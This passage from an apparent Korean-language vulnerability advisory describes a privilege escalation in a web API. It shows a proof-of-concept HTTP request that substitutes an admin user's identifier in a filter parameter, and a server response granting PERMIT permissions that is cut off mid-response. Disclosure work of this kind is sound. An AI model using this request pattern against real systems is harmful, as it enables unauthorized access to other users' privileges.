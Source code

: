 ```
}]
}
```
관리자 사용자의 식별자를 알게 되면, 해당 필터를 관리자 식별자로 교체하거나 추가하여 권한 상승을 악용할 수 있으며, 동일한 권한을 얻을 수 있습니다:
### Request
```
GET /api/functionalities/allPermissionsFunctionalities?filter[companyUsers]=user.id=='94****************************' HTTP/1.1
Host: localhost:3000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: application/vnd.api+json
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br, zstd
Content-Type: application/vnd.api+json
Authorization: Bearer eyJ.....
Origin: https:/localhost:3000
Connection: keep-alive
Referer: https:/localhost:3000/
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-site
```
### 응답
```
HTTP/1.1 200
Date: Sat, 22 Mar 2025 18:53:00 GMT
Content-Type: application/vnd.api+json;charset=UTF-8
Content-Length: 68833
Connection: keep-alive
Vary: Origin
Vary: Access-Control-Request-Method
Vary: Access-Control-Request-Headers
Access-Control-Allow-Origin: *

{
"meta": {
"Functionalities": [{
"functionalityId": 1,
"permissionId": 1,
"effectivePriority": "PERMIT",
"effectiveBehavior": "PERMIT",
"translationKey": "general.userProfile",
"type": "FunctionalityPermissionDTO"
}, {
"functionalityId": 2,
"permissionId": 2,
"effectivePriority": "PERMIT",
"effectiveBehavior": "PERMIT",
"translationKey": "general.my_profile",
"type": "FunctionalityPermissionDTO"
}, {
"functionalityId": 3,
"permissionId": 3,
"effectivePriority": "PERMIT",
"effectiveBehavior": "PERMIT",
"translationKey": "layout.change_user_data",
"type": "FunctionalityPermissionDTO"
}, {
"functionalityId": 4,
"permissionId": 4,
"effectivePriority": "PERMIT",
"effectiveBehavior": "PERMIT",
```